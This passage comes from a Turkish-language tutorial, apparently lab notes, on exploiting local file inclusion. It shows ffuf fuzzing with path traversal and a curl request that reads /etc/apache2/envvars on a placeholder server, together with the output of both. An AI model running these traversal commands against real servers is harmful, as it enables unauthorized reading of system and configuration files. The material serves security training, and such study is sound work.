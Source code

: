 ### Server Logs/Configurations

SecLists reposunda bulunmayan [LFI-WordList-Linux](https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Linux) ve [LFI-WordList-Windows](https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Windows) listeleri de kullanışlı listelerdir.

```bash
ffuf -w ./LFI-WordList-Linux:FUZZ -u 'http://SERVER_IP_ADDRESS:PORT/index.php?language=../../../../FUZZ' -fs 2287
```

```text title="Output" hl_lines="25"
...SNIP...

 :: Method           : GET
 :: URL              : http://SERVER_IP_ADDRESS:PORT/index.php?language=../../../../FUZZ
 :: Wordlist         : FUZZ: ./LFI-WordList-Linux
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
 :: Filter           : Response size: 2287
________________________________________________

/etc/hosts              [Status: 200, Size: 2461, Words: 636, Lines: 72]
/etc/hostname           [Status: 200, Size: 2300, Words: 634, Lines: 66]
/etc/login.defs         [Status: 200, Size: 12837, Words: 2271, Lines: 406]
/etc/fstab              [Status: 200, Size: 2324, Words: 639, Lines: 66]
/etc/apache2/apache2.conf [Status: 200, Size: 9511, Words: 1575, Lines: 292]
/etc/issue.net          [Status: 200, Size: 2306, Words: 636, Lines: 66]

...SNIP...

/etc/apache2/mods-enabled/status.conf [Status: 200, Size: 3036, Words: 715, Lines: 94]
/etc/apache2/mods-enabled/alias.conf [Status: 200, Size: 3130, Words: 748, Lines: 89]
/etc/apache2/envvars    [Status: 200, Size: 4069, Words: 823, Lines: 112]
/etc/adduser.conf       [Status: 200, Size: 5315, Words: 1035, Lines: 153]
```

Apache değişkenlerinin (örneğin `APACHE_LOG_DIR`) tutulduğu dosyanın içeriğini okumak için aşağıdaki komutu kullanabiliriz:

```bash
curl http://SERVER_IP_ADDRESS:PORT/index.php?language=../../../../etc/apache2/envvars
```

```text title="Output" hl_lines="10"
...SNIP...

export APACHE_RUN_USER=www-data
export APACHE_RUN_GROUP=www-data
# temporary state file location. This might be changed to /run in Wheezy+1
export APACHE_PID_FILE=/var/run/apache2$SUFFIX/apache2.pid
export APACHE_RUN_DIR=/var/run/apache2$SUFFIX
export APACHE_LOCK_DIR=/var/lock/apache2$SUFFIX
# Only /var/log/apache2 is handled by /etc/logrotate.d/apache2.
export APACHE_LOG_DIR=/var/log/apache2$SUFFIX

...SNIP...
```
